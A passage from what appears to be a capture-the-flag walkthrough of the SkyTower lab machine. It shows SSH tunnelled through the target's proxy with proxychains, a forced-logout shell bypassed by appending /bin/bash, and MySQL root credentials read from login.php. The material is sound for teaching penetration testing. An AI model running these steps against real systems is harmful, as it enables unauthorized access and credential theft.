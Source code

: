 Now we can login via SSH using the proxy.

```bash
root@kali:~$ proxychains ssh john@192.168.179.175
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Dynamic chain  ...  192.168.179.175:3128  ...  192.168.179.175:22  ...  OK
john@192.168.179.175's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014

Funds have been withdrawn
Connection to 192.168.179.175 closed.
```

The connection is established but we don't get a shell, we can bypass this simply adding **/bin/bash** as follows.

```bash
root@kali:~$ proxychains ssh john@192.168.179.175 /bin/bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Dynamic chain  ...  192.168.179.175:3128  ...  192.168.179.175:22  ...  OK
john@192.168.179.175's password:
id
uid=1000(john) gid=1000(john) groups=1000(john)
```

Now we can execute system commands, in the **/var/www** directory there is a file named login.php that contains the credentials to log into MySQL.

```bash
pwd
/var/www
head -n 8 login.php
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

if($db->connect_errno > 0){
    die('Unable to connect to database [' . $db->connect_error . ']');

}
```

The following one-line instruction lists the available databases.
